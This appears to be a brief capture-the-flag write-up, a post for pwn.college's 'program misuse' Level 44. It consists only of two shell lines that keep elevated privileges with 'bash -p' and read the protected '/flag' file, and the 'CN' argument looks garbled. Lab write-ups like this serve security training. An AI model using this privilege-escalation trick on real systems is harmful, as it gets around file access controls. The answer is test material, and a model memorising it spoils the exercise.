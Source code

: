 ```yaml
---
layout: post
title: "Level 44"
date: 2024-4-10 12:00:00 -0000
categories: [pwn college, program misuse]
---
```


```bash
bash -p CN
cat /flag
```
